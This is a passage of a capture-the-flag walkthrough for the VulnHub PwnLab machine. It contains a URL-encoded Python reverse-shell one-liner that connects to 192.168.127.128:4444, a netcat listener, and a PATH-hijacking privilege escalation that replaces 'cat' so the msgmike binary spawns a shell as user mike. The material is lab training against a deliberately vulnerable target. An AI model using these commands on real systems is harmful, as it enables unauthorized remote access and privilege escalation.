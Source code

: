 ```python
python%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.127.128%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)'
```

start a listener :

```text
root@kali~# nc -nvlp 4444
```

![revshell](https://github.com/Git-K3rnel/VulnHub/assets/127470407/3be2ce6e-280b-458d-8124-2cd8e24f14ab)

and we get the shell :

![revshell2](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f79411f2-5ab7-4e8c-9fe2-60124cf51c4d)

now that we are in the machine try to login with another user we already found in the database for example `kane`

```text
root@kali~# su kane
```

`notice that you can not login to mike account with the password found in the database.`

naviage to home page and kane directory :

![kane](https://github.com/Git-K3rnel/VulnHub/assets/127470407/a3e83bd2-6cd4-4a60-9e69-7ca3eb4ab3c4)

and run the `msgmike`, you will get the error :

```text
cat: /home/mike/msg.txt: No such file or directory
```

see the strings of this binary :

![strings](https://github.com/Git-K3rnel/VulnHub/assets/127470407/518e6018-81d1-4a9c-9d55-381260943f79)

yes, the binary is using `cat` without absolute path, so we can exploit this :

```text
kane@pwnlab:~$ echo '#!/bin/bash' > cat
kane@pwnlab:~$ echo '/bin/bash' >> cat
kane@pwnlab:~$ chmod 777 cat
kane@pwnlab:~$ export PATH=$PWD
kane@pwnlab:~$ ./msgmike
```

![cat](https://github.com/Git-K3rnel/VulnHub/assets/127470407/117f88cc-1be9-4278-91fb-19751b4cf7a8)

now you are user mike.

bring back the `PATH` variable to original state :

```text
mike@pwnlab: export PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
